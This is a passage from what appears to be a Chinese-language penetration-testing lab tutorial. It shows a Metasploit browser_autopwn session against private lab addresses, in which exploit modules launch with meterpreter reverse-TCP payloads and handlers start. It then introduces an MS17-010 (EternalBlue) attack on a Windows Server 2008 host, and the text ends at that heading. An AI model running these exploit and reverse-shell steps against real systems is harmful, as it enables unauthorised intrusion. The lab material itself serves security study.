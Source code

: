 ```
   Name       Description
   ----       -----------
   WebServer  Start a bunch of modules and direct clients to appropriate exploits



View the full module info with the info, or info -d command.

msf6 auxiliary(server/browser_autopwn) &gt; set rhosts 192.168.200.130
[!] Unknown datastore option: rhosts. Did you mean URIHOST?
rhosts =&gt; 192.168.200.130
msf6 auxiliary(server/browser_autopwn) &gt; set srvport 8000
srvport =&gt; 8000
msf6 auxiliary(server/browser_autopwn) &gt; set lhost 192.168.200/128
[-] The following options failed to validate: Value '192.168.200/128' is not valid for option 'LHOST'.
lhost =&gt; 
msf6 auxiliary(server/browser_autopwn) &gt; set LHOST 192.168.200.128
LHOST =&gt; 192.168.200.128
msf6 auxiliary(server/browser_autopwn) &gt; set uripath /
uripath =&gt; /
msf6 auxiliary(server/browser_autopwn) &gt; exploit
[*] Running module against 192.168.200.130
[*] Auxiliary module running as background job 0.

[*] Setup
msf6 auxiliary(server/browser_autopwn) &gt; 
[*] Starting exploit modules on host 192.168.200.128...
[*] ---

[*] Starting exploit android/browser/webview_addjavascriptinterface with payload android/meterpreter/reverse_tcp

......

[*] Starting handler for java/meterpreter/reverse_tcp on port 7777
[*] Started reverse TCP handler on 192.168.200.128:6666 
[*] Started reverse TCP handler on 192.168.200.128:7777 

[*] --- Done, found 0 exploit modules

[-] No exploits, check your MATCH and EXCLUDE settings
[*] Cleaning up exploits...

```

### 五：内网实验

目标主机：<br/> Windows server 2008 (192.168.200.130)存在ms17010永恒之蓝漏洞

#### MS17010攻击
